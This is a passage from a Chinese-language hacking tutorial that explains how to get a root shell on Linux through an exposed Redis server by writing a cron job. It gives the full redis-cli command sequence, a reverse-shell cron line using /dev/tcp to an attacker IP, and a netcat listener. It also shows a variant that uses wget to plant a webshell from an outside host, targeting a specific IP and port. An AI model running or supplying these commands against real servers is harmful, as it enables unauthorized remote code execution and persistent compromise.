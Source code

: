 注：`-x` 代表从标准输入读取数据作为该命令的最后一个参数。


- 需要是 `root` 起的 Redis。

归根到底还是要 root 运行 redis，毕竟要写到`/var/spool/cron/crontabs/root`下，主要优势是适用一些 ssh 不能被直接访问的场景。

- 不适用于 Windows 服务器

Windows 情境下没有计划任务，可以尝试一下写入启动项。理论上可以尝试写文件到用户启动项，但是现实是 Windows 普通用户没有计划任务权限。Windows 下 Redis 拿 shell，后面会单独成文讨论。



**具体步骤：**

在 Kali 攻击机器上：

1、通过 redis-cli 进入交互式shell
``` shell
redis-cli -h [Redis IP/域名] -p 6379
```



2、设置写 crontabs 的文件夹路径
``` shell
config set dir /var/spool/cron/crontabs
```
3、修改备份文件名
``` shell
config set dbfilename root
```
4、对 `/var/spool/cron/crontabs/root` 写入「反弹 shell」的计划任务
``` shell
echo -e "\n\n\n* * * * * bash -i >& /dev/tcp/198.xx.xx.xxx/9999 0>&1\n\n\n"|redis-cli -x set %
```

注：个人觉得童话师傅下面的图中设置计划任务这一句有点问题，也就是没设置在redis中的优先级。如果不设置优先级可能还需要 `flushall`。

![title](https://leanote.com/api/file/getImage?fileId=5dd166d5ab6441492c000af9)

除了反弹 shell 的计划任务之外，也可以设置别的计划任务，如写大马（但是下图中这个 shell 写的有点奇怪，总之就是这个网站 web 目录位置很奇怪）：
``` shell
echo -e "\n\n* * * * * wget http://***.***.***.***/shell.txt -O /data/media/xiao.php\n\n"|redis-cli -h 61.155.167.220 -p 221 -x set %
```
![title](https://leanote.com/api/file/getImage?fileId=5dd1669cab6441492c000af6)


5、保存
``` shell
save
```


6、监听公网机器指定端口，接收反弹回来的 shell
``` shell
nc -lvvp 9999
```

# 0x05 总结
